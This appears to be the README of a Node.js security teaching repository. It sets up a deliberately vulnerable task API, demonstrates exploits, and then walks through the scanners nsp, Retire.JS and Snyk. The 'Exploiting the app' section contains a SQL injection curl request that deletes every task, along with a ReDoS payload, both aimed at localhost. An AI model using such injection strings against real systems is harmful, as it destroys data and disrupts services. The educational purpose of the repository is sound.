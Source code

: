 # node-security-brown-bag
Scenarios for the brown bag session about secure node applications

## Badges

Snyk: [![Known Vulnerabilities](https://snyk.io/test/github/sdepold/node-security-brown-bag/badge.svg)](https://snyk.io/test/github/sdepold/node-security-brown-bag)

NSP: [![NSP Status](https://nodesecurity.io/orgs/barfooz/projects/df73b085-1256-4e50-90df-9358236622ee/badge)](https://nodesecurity.io/orgs/barfooz/projects/df73b085-1256-4e50-90df-9358236622ee)


## Setup
The following steps have been made to initialize the project:

```
npm install -g express-generator
cd node-security-brown-bag
express -f
yarn add sequelize@3.16 mysql
yarn add --dev sequelize-cli
node_modules/.bin/sequelize init
node_modules/.bin/sequelize model:create --name Task --attributes title:string
```

## API

```
# Reading all tasks
curl "http://localhost:3000/tasks"

# Reading a limited amount of tasks
curl "http://localhost:3000/tasks?limit=2"

# Creating a task
curl "http://localhost:3000/tasks" -d '{"title":"some title"}'  -H 'content-type:application/json'
```

## Exploiting the app

```
curl "http://localhost:3000/tasks" -d '{"title":"some task"}'  -H 'content-type:application/json'
curl "http://localhost:3000/tasks" -d '{"title":"some other task"}'  -H 'content-type:application/json'
curl "http://localhost:3000/tasks" # Renders all tasks
curl "http://localhost:3000/tasks?limit=1" # Renders only a single task
curl "http://localhost:3000/tasks?limit=1;DELETE%20FROM%20tasks" # Will delete the tasks due to vulnerability
curl "http://localhost:3000/tasks" # Renders all available (aka no) tasks

# ReDos attack
curl "http://localhost:3000/tasks" -d '{"title":"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"}'  -H 'content-type:application/json'
```

## Security checks

### nsp

Website: https://nodesecurity.io/

Description:
- Uploads package.json / npm-shrinkwrap.json to NSP servers
- Analysis happens remotely
- Renders found vulnerabilities
- Can be executed against a local copy of the vulnerability registry iif the app uses npm-shrinkwrap
- Can integrate into Github and verify Pull-Requests
- More extended plans contain weekly security reviews of pull requests as well as a pair attack session
  against your application.

```
npm install --save-dev nsp
nsp check --output summary
```

### Retire.JS

Website: http://retirejs.github.io/retire.js/

Description:
- Free
- Downloads list of known vulnerabilities to local machine
- Walks through all the installed dependencies
- Check dependencies against downloaded vulnerability list
- Prints vulnerabilities

```
npm install --save-dev retire
retire
```

### Snyk

Website: https://snyk.io

Description:
- Downloads list of known vulnerabilities to local machine
- Walks through all installed dependencies
- Checks if dependencies are vulnerable based on the downloaded list (`snyk test`)
- Allows interactive auto-healing via `snyk wizard`
- Can patch vulnerabilities that are not fixed yet via `snyk protect`
- Can notify you about new or properly fixed vulnerabilities via `snyk monitor`

```
npm install -g snyk
snyk wizard
snyk test
```

## Further resources
- Super vulnerable TODO app: https://github.com/snyk/goof
- Greenkeeper Enterprise: https://github.com/greenkeeperio/greenkeeper/projects/3
- Securing Your Node.js App: http://stackabuse.com/securing-your-node-js-app/
- Tutorial about hacking an application: http://nodegoat.herokuapp.com/tutorial
- Other, similar tools:
    - https://www.sourceclear.com
- ReDoS scanner: https://github.com/jagracey/RegEx-DoS
- Explanation about ReDoS: https://en.wikipedia.org/wiki/ReDoS

## Presentation

1. Use and explain application
  1. Explain application
  2. Use and exploit the API endpoints
  3. Show vulnerability in `routes/tasks.js`
2. Security checks
  1. Run security checks
  2. Show NSP, RetireJS, Snyk
  3. Show https://github.com/sdepold/node-security-brown-bag/pull/3
  4. Create a fix via Snyk PR
  5. Show and merge https://github.com/sdepold/node-security-brown-bag/pull/4
  6. Run API requests again
3. ReDoS
  1. Run ReDoS exploit
  2. Show ReDoS vulnerability in `models/task.js`
  3. Run ReDoS test
  4. Fix regular expression
4. Greenkeeper
